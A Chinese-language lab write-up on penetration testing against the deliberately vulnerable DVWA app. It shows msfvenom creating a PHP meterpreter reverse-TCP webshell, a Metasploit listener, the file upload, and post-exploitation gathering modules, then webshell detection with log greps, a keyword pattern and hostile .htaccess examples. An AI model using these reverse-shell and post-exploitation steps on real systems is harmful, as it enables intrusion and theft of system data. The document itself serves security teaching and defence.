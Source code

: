 # 第四章：渗透测试靶场实战
##  Metasploit 基础使⽤
## 实验⼀
**使⽤ Metasploit 创建并利⽤ DVWA 的⽂件上传漏洞，并完成 Webshell 的连接**
### 步骤⼀
#### 使⽤ msfvenom 创建⼀个 PHP meterpreter 反向 TCP shell  
 `msfvenom -p php/meterpreter/reverse_tcp lhost=172.17.0.1 lport=4444 -f raw > webshell.php`

![](./img_10/exp1/1.png)

 ### 步骤二
 #### 在 msfconsole 中配置监听端口
 ```
msfconsole
msf6 exploit(multi/handler) > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > show options
msf6 exploit(multi/handler) > set lhost 172.17.0.1
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > exploit
```

![](./img_10/exp1/2.png)

 ### 步骤三
 #### 利⽤ DVWA 中 low 难度的⽂件上传漏洞，完成利⽤
 ```
# 1. 登录DVWA 应⽤程序并将安全级别设置为低
# 2. 前往⽂件上传漏洞⻚⾯
# 3. 在应⽤程序中上传创建的webshell
# 4. 复制上传⽂件的路径并在浏览器中加载
 ```

![](./img_10/exp1/3.png)

![](./img_10/exp1/4.png)


 ### 步骤四
 #### 利⽤结果：Webshell 执⾏后，将在 Meterpreter 中打开⼀个会话，我们现在可以在终端中执⾏所有命令

![](./img_10/exp1/5.png)

![](./img_10/exp1/6.png)

 #### 将已连接成功的会话挂在后台
` meterpreter > bg`

![](./img_10/exp1/7.png)

## 实验⼆：使⽤ Metasploit 后渗透模块
### 步骤⼀：使⽤ checkvm 模块
``` 
msf > use post/linux/gather/checkvm
msf post(checkvm) > show options
msf post(checkvm) > sessions -l
msf post(checkvm) > set SESSION 1
msf post(checkvm) > run
```

![](./img_10/exp2/1.png)


### 步骤⼆：使⽤ enum_configs 模块
``` 
msf6 exploit(multi/handler) > use post/linux/gather/enum_configs
msf6 post(linux/gather/enum_configs) > show options
msf6 post(linux/gather/enum_configs) > set SESSION 1
msf6 post(linux/gather/enum_configs) > run
```

![](./img_10/exp2/2.png)


#### 查看 enum_configs 找到的配置⽂件

![](./img_10/exp2/3.png)


### 步骤三：使⽤ enum_network 模块
```
msf6 post(linux/gather/enum_configs) > use post/linux/gather/enum_network 
msf6 post(linux/gather/enum_network) > show options
msf6 post(linux/gather/enum_network) > set SESSION 1
msf6 post(linux/gather/enum_network) > run
 ```

![](./img_10/exp2/4.png)

 #### 查看 enum_network 找到的配置⽂件

![](./img_10/exp2/5.png)


 ### 步骤四：使⽤ enum_system 模块
 ```
msf6 post(linux/gather/enum_protections) > use post/linux/gather/enum_system 
msf6 post(linux/gather/enum_system) > show options
msf6 post(linux/gather/enum_system) > set SESSION 1
msf6 post(linux/gather/enum_system) > run
 ```

![](./img_10/exp2/6.png)


 #### 查看 enum_system 找到的配置⽂件

![](./img_10/exp2/7.png)

 ## Webshell 的检测和预防

 ## 实验三：Webshell 检测实践

 ### 步骤⼀：检查服务器访问⽇志和错误⽇志

 #### ⾸先，必须过滤服务器访问⽇志和错误⽇志，以查找 Web Shell 正在使⽤的常见关键字。这包括⽂件名和/或参数名称。

```
cat /var/log/apache2/access.log | awk -F\" ' { print $1,$2 } ' | grep "shell"
```

 ![](./img_10/exp3/1.png)   

 ### 步骤⼆：检查 Web 服务器根⽬录
 #### 在⽂件系统（通常是Web服务器根⽬录）中搜索⽂件或⽂件名中的常⻅字符串。

```
 cd /var/www/html/
 grep -RPn "(passthru|exec|eval|shell_exec|assert|str_rot13|system|phpinfo|base64_decode|chmod|mkdir|fopen|*\("
```

 ![](./img_10/exp3/2.png)

 ### 步骤三：检查最近⼏天内容修改的⽂件     
 #### 搜索最近 X 天内修改的⽂件。在以下⽰例中，我们搜索了最后⼀天内更改*.php 的⽂件，但建议搜索任意⽂件更改，因为 Web shell 也可以嵌⼊到图像或任何其他⽂件中。

```
 find -name '*.php' -mtime -1 -ls
```

 ![](./img_10/exp3/3.png)

 ### 步骤四：检查异常⽹络流量和⽹络连接

```
ss -t -u -a
```

 ![](./img_10/exp3/4.png)

 ### 步骤五：检查敏感配置⽂件
#### 分析 .htaccess ⽂件以进⾏修改。以下是攻击者可能对 .htaccess ⽂件进⾏的更改⽰例。

```
 AddType application/x-httpd-php .htaccess
 AddType application/x-httpd-php .jpg

这两条指令的含义是：

第一条指令告诉Apache服务器，将.htaccess文件作为PHP脚本处理。通常，.htaccess文件只是纯文本配置文件，不应该被执行。这个更改允许攻击者将.htaccess文件本身变成一个可以执行的PHP脚本，这可能会带来严重的安全风险。
第二条指令告诉Apache服务器，将任何扩展名为.jpg的文件也作为PHP脚本处理。这通常是一个图片文件的扩展名，这样的更改允许攻击者上传一个看似无害的图片文件，实际上却包含PHP代码，服务器会执行这个文件中的代码。
```

## 遇到的问题
SESSION的编号对不上，或是SESSIONS列表为空。
因为另开了一个msfconsole所以在另外一个msfconsole中没有其他的SESSIONS，由于在已启动的msfconsole中SESSION的数量可能不同，所以SESSION对应的编号也就不一样，在进行相关操作前，需要先检查一下已有的SESSIONS目录，即`sessions -l`
`
## 参考文献 


